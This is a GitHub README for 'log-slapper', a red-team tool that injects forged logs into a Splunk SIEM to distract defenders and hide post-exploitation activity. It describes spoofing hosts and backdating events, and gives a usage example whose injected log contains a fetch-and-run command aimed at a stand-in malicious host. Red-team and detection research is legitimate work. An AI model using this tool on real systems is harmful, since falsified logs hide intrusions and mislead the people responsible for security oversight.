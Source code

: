# log-slapper 👹
<p align="center">
<img width="600" align="center" alt="image"  src="https://github.com/oz9un/log-slapper/assets/57866851/fd320c4b-5c90-45d3-a477-2fc44e1cf66d">
</p>

<br>

**Every company undoubtedly trusts its SIEM, right? Think twice, we can inject fake logs, distract BT's and hide our attacks.**


## description
log-slapper is the offensive security tool for red-teamers and specifically designed for post-exploit part of the campaign.
<br>


log-slapper can:
- mimic attacks on behalf of any other computer on the network
- run in interactive mode: Target Shell Playzone
- send logs from future and past: HEC based Time Traveller's attack 
- perform built-in attacks like login success/fail spam, new process creations

## usage
<img width="500" alt="image" src="https://github.com/oz9un/log-slapper/assets/57866851/a564c9c5-9bcf-4ff8-b4ee-941c359e45bd">
<br>
<br>

go into interactive mode:
```
./log-slapper interactive
```
send log as "payment-server-01" got hacked and malicious code is running:

```
./log-slapper nix_command --hostname "payment-server-01" --ip "23.32.45.123" -t "e270e632-861f-45cc-8f00-f91eb895f5e6" --exectime "10/10/2021 08:45" --command "wget https://malicious.com/test && ./test"
```

Now check your Splunk 🙂

## video

for more details on research, usage of log-slapper and more:<br>
[![SIEM SLAM](https://img.youtube.com/vi/m3sLC2WQ1ug/0.jpg)](https://www.youtube.com/watch?v=m3sLC2WQ1ug)
